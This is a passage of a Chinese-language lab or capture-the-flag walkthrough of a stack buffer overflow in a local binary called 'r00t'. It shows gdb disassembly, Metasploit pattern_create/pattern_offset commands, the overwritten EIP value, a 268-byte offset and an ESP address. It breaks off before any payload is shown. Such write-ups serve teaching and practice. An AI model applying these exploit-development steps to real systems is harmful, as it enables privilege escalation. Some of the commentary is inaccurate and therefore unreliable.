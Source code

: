先查看 door2，让我们输入

用 gdb 进行拆解

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOOwmngwicsvusrFVnmwFttjbhib9Vkxw9mAXbKA7tfcfUh8YBONTPiayGyVTaicExGnSIhTtfuiadz3gg/640?wx_fmt=png)

```
命令：gdb -q r00t（加载执行r00t程序发生溢出时来跟踪EIP的值）
命令：set disassembly-flavor intel（转换为intel格式的汇编）
命令：disas main（显示main函数对应的汇编代码）
```

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOOwmngwicsvusrFVnmwFttj8iamym1OvZHq9tBdWwZFqtkkHibtibpAbicD2sq9KZ93kuCXlIIiaJm1cVg/640?wx_fmt=png)

这边使用 Metasploit 实现对缓冲区栈的溢出攻击

使用 Metasploit 中的 pattern_create.rb 脚本生成字符序列

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOOwmngwicsvusrFVnmwFttj2BExIBkB2ep3iba5oVN2XiaISyeMB0Mic3T4HbgHIhofiaZUMszQzibibuicw/640?wx_fmt=png)

```
cd /usr/share/metasploit-framework/tools/exploit/（进入msf的EXP库）
./pattern_create.rb -l 500（可以看到我们只要在pattern_create.rb脚本的后面加上-L字符序列长度就可以生成指定长度的字符序列，查看了500的长度即可）
```

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOOwmngwicsvusrFVnmwFttjkKMgcDIxMohGibLcte8hxdjagKER3Pv46ibBCx8eLQYdgmpB8GwEsPPA/640?wx_fmt=png)

这边 R 跑下这个值，提示故障表示已经溢出了：

```
0x6a413969
```

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOOwmngwicsvusrFVnmwFttjXdSH5VOYibEpbKPCtZJptQcbbS24t4XYV3Ql8kSQujicpPz00Kug46icQ/640?wx_fmt=png)

Metasploit 下的 pattern_offset.rb，首先我们先查看 pattern_offset.rb 脚本的帮助信息

这边 - q 是执行 Aa0A（溢出值的 6a413969）

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOOwmngwicsvusrFVnmwFttjEKibODtUEa9juibhbJf2OVWAInB57LicNXXs81UAL2Y7WwKY9IQtGVeCg/640?wx_fmt=png)

命令：

```
./pattern_offset.rb -q 6a413969
```

返回偏移量结果 268

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOOwmngwicsvusrFVnmwFttjKMfZUvcW7TnhaPv0Keg6v2CLjsVhUJEJVmf7A1zwjIUOiar8HX4c4fQ/640?wx_fmt=png)

参考：https://blog.csdn.net/ll352071639/article/details/42304619

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOOwmngwicsvusrFVnmwFttj4jd745hD2Dua7cF4GcCbMlQEicn0BatXqtabrfOwHLazL3UDbAMaQEQ/640?wx_fmt=png)

命令：i r esp（查看浮点）

得到了 EXP 的位置是 0xbffffa80（真难理解）
